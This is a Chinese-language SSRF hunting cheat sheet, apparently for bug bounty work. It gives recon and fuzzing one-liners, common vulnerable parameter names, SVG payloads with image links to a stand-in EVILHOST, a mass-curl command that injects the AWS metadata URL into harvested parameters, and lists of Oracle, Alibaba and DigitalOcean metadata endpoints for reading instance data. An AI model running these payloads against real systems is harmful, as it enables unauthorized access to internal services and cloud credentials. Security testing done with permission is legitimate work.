

# SSRF 漏洞挖掘技巧

## 0x1 自动化挖掘SSRF

### 0x1.1 组合思路




### 0x1.2 burp插件SSRF-king

```
git clone https://github.com/ethicalhackingplayground/ssrf-king
gradle build
```

> 自动使用burpcollaborator来进行探测非常方便

介绍链接:https://www.kitploit.com/2021/01/ssrf-king-ssrf-plugin-for-burp.html?utm_source=dlvr.it&utm_medium=twitter

## 0x1.3 one-liner

```
1 Run getallurls for all assets & merge results
2 `cat results | grep "url="| anti-burl | tee ssrf.txt`
3 Review & cleanup list 
4 Fuzz all "url-like" params w/ Burp collab & #ffuf
```


## 常用的SSRF参数

```
?url=[SSRF]
?q=[SSRF]
?u=[SSRF]
?link=[SSRF]
?host=[SSRF]
?file=[SSRF]
?path=[SSRF]
?imgurl=[SSRF]
?src=[SSRF]
?consumerUri=[SSRF]
```


##  挖掘SSRF一些技巧

### svg服务端图片处理导致的盲ssrf

Content-Type: image/svg+xml

```
<?xml version="1.0" encoding="UTF-8" standalone="no"?><svg xmlns:svg="http://www.w3.org/2000/svg" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="200" height="200"><image height="200" width="200" xlink:href="http://<EXAMPLE_SERVER>/image.jpeg" /></svg>


<svg xmlns:svg=”http://w3.org/2000/svg" xmlns=”http://w3.org/2000/svg" xmlns:xlink=”http://w3.org/1999/xlink" width=”200" height=”200">
<image height=”30" width=”30" xlink:href=”http://EVILHOST:1337/SVG-SSRF-TEST" />
</svg>
```

利用参考:https://hackerone.com/reports/223203


## oneliner

1/4

```
cat params.txt | qsreplace "http://169.254.169.254/latest/meta-data/hostname" | xargs -I host -P 50 bash -c "curl -ks 'host' | grep \"compute.internal\" && echo -e \"[VULNERABLE] - X \n \"" | grep "VULN"
```

2/4

```
cat ssrf.txt | qsreplace "interactsh server ID" | anew -q ssrf_test.txt
ffuf -w ssrf_test.txt -u FUZZ -p "0.6-1.2" -H "(header in thread)" -t 200 -s
```

3/4

```
subfinder -d http://target.com -all -silent | httpx -silent -threads 500 | anew -q subdomains.txt

cat subdomains.txt | gauplus --random-agent -b png,jpg,svg,gif -t 500 | anew -q gau_output.txt
```

4/4

```
cat subdomains.txt | xargs -P 30 -I host bash -c "echo host | waybackurls | anew -q wayback_output.txt"

cat wayback_output.txt gau_output.txt | urldedupe -s | anew -q params.txt

cat parameters.txt | gf ssrf | anew -q ssrf.txt
```


## 云端利用读取敏感数据

```
#Oracle Cloud
http://192.0.0.192/latest/
http://192.0.0.192/latest/user-data/
http://192.0.0.192/latest/meta-data/
http://192.0.0.192/latest/attributes/

#Alibaba (2/4)
http://100.100.100.200/latest/meta-data/
http://100.100.100.200/latest/meta-data/instance-id
http://100.100.100.200/latest/meta-data/image-id

#Digital Ocean (3/4)
http://169.254.169.254/metadata/v1.json
http://169.254.169.254/metadata/v1/ 
http://169.254.169.254/metadata/v1/id
http://169.254.169.254/metadata/v1/user-data
http://169.254.169.254/metadata/v1/hostname

(4/4)
http://169.254.169.254/metadata/v1/region
http://169.254.169.254/metadata/v1/interfaces/public/0/ipv6/address
```


## 相关的在线工具

记录触发点:

 https://ssrftest.com/

https://webhook.site/ (可以自定义文件内容)